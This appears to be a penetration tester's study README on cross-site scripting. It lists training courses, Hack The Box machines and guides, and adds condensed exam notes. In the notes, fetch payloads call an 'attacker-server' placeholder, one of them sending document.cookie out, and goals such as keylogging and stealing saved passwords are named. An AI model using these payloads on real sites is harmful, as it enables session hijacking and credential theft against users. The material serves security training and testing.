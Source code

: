![image](https://github.com/user-attachments/assets/ad53639a-a98a-4422-b451-b37c88408a42)

# Cross-Site Scripting

## Training Resources
---
### Courses
*Free*
- [PortSwigger Academy - Cross-Stie Scripting](https://portswigger.net/web-security/cross-site-scripting)

*Paid*
- [HTB - Advanced XSS and CSRF](https://academy.hackthebox.com/course/preview/advanced-xss-and-csrf-exploitation)
- [THM - Intro to Cross-Site-Scripting](https://tryhackme.com/r/room/xss)
- [THM - XSS](https://tryhackme.com/r/room/axss)

#

### Hack The Box Machines
*These machines are tagged as containing Cross-Site Scripting by HTB, the difficulty refers to the box as a whole and not necessarily the Cross-Site Scripting element.*

| Machine Name | Difficulty | Completed |
| -- | -- | -- |
| CloudFall | Easy | |
| Headless | Easy  | |
| Sea | Easy | |
| Sightless | Easy | |
| Book  | Medium | |
| Extension  | Medium | |
| RedCross | Medium  | |
| Schooled | Medium | |
| FormulaX | Hard | |
| Holiday | Hard | |
| Mailroom | Hard | |
| OverGraph | Hard | |
| EasyAccess | Hard | |
| Cereal | Hard | |
| Visor | Hard | |
| RopeTwo | Insane | |
| Bookworm | Insane | |
| Anubis | Insane | |
| Bankrobber | Insane | |
| Fingerprint | Insane | |
| Stacked | Insane  | |
| Corporate | Insane | |
| CrossFit | Insane | |
| Derailed | Insane | |


### Other Resources
---
**PT Guides**
- [HackTricks - XSS](https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/index.html#xss-cross-site-scripting)
- [Sushant OSCP Guide - XSS](https://sushant747.gitbooks.io/total-oscp-guide/content/cross-site-scripting.html)
- [My Guide - XSS](https://tom23rose.gitbook.io/testingmethodology/web-testing/exploitation/injection-attacks/cross-site-scripting-xss)
- [The Hacker Recipes - XSS](https://www.thehacker.recipes/web/inputs/xss#xss-cross-site-scripting)
#
**Bug Bounty Write Ups**
- [Bug Bounty Write Ups](https://github.com/alexbieber/Bug_Bounty_writeups#cross-site-scripting-xss)
#
**Methodologies**
- [OWASP - testing for Reflected XSS](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)
- [OWASP - testing for Stored XSS](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
#
**Wordlists**
- [SecLists - XSS Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/XSS)
- [Port Swigger Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
#
**SQL Prevention**
- [OWASP XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
#

## Condensed Notes
This is a condensed version of the notes I used during OSWA and are by no means complete. Make your own notes and methodology, building off these basic steps. 

- Identify potential injection points where the input is reflected back to the browser. Or in the case of blind-xss, where there's an indication it'll be reflected to someone elses browser.
- Use automated tools such as XSStrike to identify XSS on the application
```bash
python3 xsstrike.py --crawl -l 2 -u "http://IP:PORT/?paameter=value&parameter2=value2"
```
- Burp Suite will attempt to identify XSS during an active scan
- For manual testing, start by inputting random, unique, easily identifiable strings "p9jal3ex" into requests and seeing if they're reflected anywhere in the application.
- Once identified, try basic XSS and attempt to guage the context of the reflection, think about what is needed to break out of this context and exploit JavaScript. The [PortSwigger XSS cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) can be useful here.
- A simple POC can be an alert box, try to improve this to connect back to an attacker controlled server.
```bash
alert(1)

fetch("http://attacker-server:8888)
```
- Are the session cookies protected with HTTPOnly, if not can we exfiltrate them using payloads like:
```bash
fetch("http://attacker-server:8888/exfil?data=" + document.cookie)
```
- Can we bypass restriction in our payload by hosting a malicious file on our web server and getting it with the XSS payload, causing the malicious js file to execute with more complex JavaScript.
- Try to perform the following:
  - Capture session cookies of a privileged user
  - Capture local storage data
  - Perform CSRF with XSS by hosting JavaScript in malicious file on attacker server
  - Inser a key logger into the vuctims browser
  - Steal passwords saved into the browser
